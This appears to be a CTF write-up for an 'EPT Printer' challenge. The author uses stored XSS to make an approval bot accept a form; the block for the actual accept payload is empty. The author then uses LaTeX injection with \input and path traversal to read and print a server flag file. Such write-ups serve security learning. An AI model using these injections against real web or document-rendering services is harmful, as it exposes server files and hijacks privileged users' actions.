

# Writeup
author: th@m456 @ FesseMisk

## EPT Printer


### Solution
This is an onsite challenge where we need to print out the flag on an actual printer. In order to do this, we first need to get approval by a bot reviewing "approval applications".

First, we open the link provided by the EPT Box. 

From here, we must log in with our Discord user. Our Discord user is connected to a personal ID card, which is required for solving the challenge at a later stage.

After logging in, we can find an "approval application" form from the menu in the top right.


By finding hints in the attached source code, I understand that we must trick the bot to automatically click "accept" on our application.

```bash
/webapp/app/templates$ cat application.html

(...)
<!-- Make it easy for the admin to click() the button by placing it at the top -->
(...)
```

The bot checks the incoming applications every 30 seconds, revealed in a `bot.py` file.

```python
APPLICATIONS_CHECK_FREQUENCY_SECONDS = int(
    os.getenv("APPLICATIONS_CHECK_FREQUENCY_SECONDS", 30)
```

I am able to find out that the application form is susceptible to XSS, by attempting this line:

```html
<script>alert(XSS vulnerable!)</script>>
```

We can use XSS to make the bot accept our application upon review with this code:

```html

```


After waiting for >30 seconds, we are now approved! Now we are able to print stuff by using the `Printing Form`.


In the source code, we find `template.tex`, indicating that we must write our code in Latex format in order to get the flag. In the template file, we can also see what commands are set, and where our input will be read.

```tex
$ cat template.tex
\documentclass{article}
\usepackage{graphicx}
\usepackage{eso-pic}

\linespread{1.5}
\setlength{\parindent}{0pt}
\pagenumbering{gobble}
\title{EPT}
\author{klarz}

\AddToShipoutPictureBG*{
  \AtPageLowerLeft{
    \includegraphics[width=\paperwidth,height=\paperheight,keepaspectratio]{ept.png}
  }
}

\begin{document}

\null\hfill\begin{tabular}[t]{l@{}}
  \textbf{EPT CTF 2024} \\
  \textit{\today}
\end{tabular}

{\noindent\Large\bfseries\sffamily\color{red}{<PRINT_JOB_TITLE>}}
\vspace{3mm}

<PRINT_JOB_CONTENT>

\end{document}
```

The attached source code also has a placeholder for flag.txt, so I know the filepath and name of the flag file is `/webapp/flag.txt`. The printing folder is at `/webapp/app/printing`, so we must do some traversing in our code.

The printing job is only executed if there are no errors in the Latex code. Many of my attempts gave an error indicating a math expression! So I had to ask GPT;

```
In LaTeX, the underscore character _ is a special character used for subscripts in mathematical expressions. Because of this, using an underscore directly in text can cause errors or unexpected behavior. To include an underscore in text, you need to escape it or change its category code.
```

Ahaaaaa! And the flag often contains an underscore!

After several attempts with errors or only printing the filepath, we successfully get the contents of the flag with this code, where we change the category code of underscore (and %, but that probably didn't matter):

```latex
\begingroup
\catcode`\%=12
\catcode`\_=12
\input{../../flag.txt}
\endgroup
```



I forgot to take a picture of the printout... but at least got the flag!

```text
EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}
```
